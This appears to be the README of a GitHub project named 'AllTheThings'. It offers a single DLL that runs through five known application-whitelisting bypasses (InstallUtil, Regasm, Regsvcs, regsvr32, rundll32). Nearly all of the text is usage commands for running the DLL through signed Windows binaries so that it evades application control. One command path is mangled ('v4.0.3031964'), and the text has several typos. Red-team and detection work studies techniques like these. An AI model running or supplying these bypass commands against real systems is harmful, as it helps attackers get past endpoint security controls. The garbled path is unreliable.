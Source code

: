 # AllTheThings
Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.


Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.
1. InstallUtil.exe

2. Regasm.exe

3. Regsvcs.exe

4. regsvr32.exe . 

5. rundll32.exe



Usage:
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

4. 

    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
    
5. 

    rundll32 AllTheThings.dll,EntryPoint
